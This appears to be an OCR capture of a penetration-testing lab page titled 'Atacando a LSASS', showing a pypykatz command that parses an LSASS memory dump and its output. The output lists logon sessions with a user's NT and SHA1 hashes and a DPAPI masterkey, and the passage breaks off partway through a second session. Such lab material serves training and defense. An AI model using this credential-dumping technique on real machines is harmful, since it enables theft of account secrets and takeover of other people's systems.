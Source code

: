 Atacando a LSASS

```
xnoxos@htb[/htb]$ pypykatz lsa minidump /home/peter/Documents/lsass.dmp INFO:root:Parsing file /home/peter/Documents/lsass.dmp
FILE: ======== /home/peter/Documents/lsass.dmp =======
== LogonSession ==
authentication_id 1354633 (14ab89)
session_id 2
username bob
domainname DESKTOP-33E7O54
logon_server WIN-6T0C3J2V6HP
logon_time 2021-12-14T18:14:25.514306+00:00
sid S-1-5-21-4019466498-1700476312-3544718034-1001
luid 1354633
	== MSV ==
		Username: bob
		Domain: DESKTOP-33E7O54
		LM: NA
		NT: 64f12cddaa88057e06a81b54e73b949b
		SHA1: cba4e545b7ec918129725154b29f055e4cd5aea8
		DPAPI: NA
	== WDIGEST [14ab89]==
		username bob
		domainname DESKTOP-33E7O54
		password None
		password (hex)
	== Kerberos ==
		Username: bob
		Domain: DESKTOP-33E7O54
	== WDIGEST [14ab89]==
		username bob
		domainname DESKTOP-33E7O54
		password None
		password (hex)
	== DPAPI [14ab89]==
		luid 1354633
		key_guid 3e1d1091-b792-45df-ab8e-c66af044d69b
		masterkey e8bc2faf77e7bd1891c0e49f0dea9d447a491107ef5b25b9929071f68db5b0d55bf05df5a474d9bd94d98be4b4ddb690e6d8307a86be6f81be0d554f195fba92
		sha1_masterkey 52e758b6120389898f7fae553ac8172b43221605

== LogonSession ==
authentication_id 1354581 (14ab55)
session_id 2
username bob
domainname DESKTOP-33E7O54
logon_server WIN-6T0C3J2V6HP
logon_time 2021-12-14T18:14:25.514306+00:00
sid S-1-5-21-4019466498-1700476312-3544718034-1001
luid 1354581
	== MSV ==
		Username: bob
		Domain: DESKTOP-33E7O54
		LM: NA
		NT: 64f12cddaa88057e06a81b54e73b949b
		SHA1: cba4e545b7ec918129725154b29f055e4cd5aea8
		DPAPI: NA
	== WDIGEST [14ab55]==
		username bob
		domainname DESKTOP-33E7O54
		password None
		password (hex)
	== Kerberos ==
```